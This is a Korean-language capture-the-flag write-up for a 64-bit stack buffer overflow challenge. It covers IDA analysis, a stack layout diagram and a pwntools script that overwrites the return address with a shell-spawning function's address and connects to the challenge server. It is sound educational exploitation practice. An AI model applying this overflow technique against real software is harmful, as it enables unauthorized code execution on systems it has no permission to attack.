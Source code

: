 # 사전지식
64비트 기반의 바이너리 파일이기 때문에 아마 ida 64bit로 열어야 한다. 
그리고 32비트의 주소 길이는 8자리였지만 64비트는 두배, 16자리이다. 
이말은 곧 64비트는 rbp, rfp, sfp의 길이가 8byte라는 것이다(!!)    
아 그리고 용어가 살짝 바뀌는데,    
ebp ->  rbp,   efp -> rfp
의미는 같다. 
이정도만 알고 있음 될 것 같다.    

# 풀이

일단 netcat을 통해 문제에 접속해보자.   
![run](run.PNG)    
문자열을 입력받고 ```hello``` 라는 문자열과 함께 입력한 문자열이 출력됨을 확인할 수 있다.    
그럼 이제 IDA로 까볼까?   
> 이 문제의 바이너리 파일은 64비트이기 때문에 IDA도 64비트버전으로 열어야 한다.   
## 바이너리 분석    
![ida1](ida1.PNG)     
문자열 변수 s랑 int형 변수 v5가 있다.    
각각 rbp를 기준으로 0x110, 0x04만큼 떨어진 곳에 위치해 있음을 알 수 있다.     
디코딩한 코드를 보자!    
![ida2](ida2.PNG)    
s에 문자열을 입력받고, printf로 출력해준다.    
> 아 참고로 리눅스에서 ```checksec```이라는 명령어를 사용하면 걸려있는 보호기법에 대해 파악할 수 있다.    
쉘 코드는 막혀있으니 BOF를 일으켜야 할 것 같은데, 어떻게 일으키면 좋을까?    
다행히 우리에겐 희망이 있다.    
![ida3](ida3.PNG)    
누가봐도 '날 불러줘요'하는 함수가 있다.  
![ida4](flag.PNG)    
예상대로 쉘 권한을 얻는 함수였다. 그럼 저 함수의 주소값을 가지고 main에서 ret까지 BOF를 일으키면 된다!   
그래도 메모리 구조를 안그리면 섭하니 한번 그려보도록 하겠다.      
![mem](mem.PNG)    
일단 v5는 그냥 s의 길이를 넣는거라 딱히 상관없어서 일단 sfp전까지 0x110만큼 BOF를 일으키고,    
sfp의 길이가 8byte이기 때문에 0x8만큼 더 BOF를 일으킨 다음    
ret에 위에 있는 flag의 주소를 넣으면 된다!    
## 코드    
```python
 from pwn import *

p = remote("ctf.j0n9hyun.xyz",3004)
flag = 0x0000000000400606
payload = 'R'*0x110
payload += 'I'*0x8
payload +=p64(flag)
p.sendline(payload)
p.interactive()
```   
추가로 64비트이기때문에 p64함수롤 써서 64비트 리틀엔디안으로 바꿔주는 것이다.    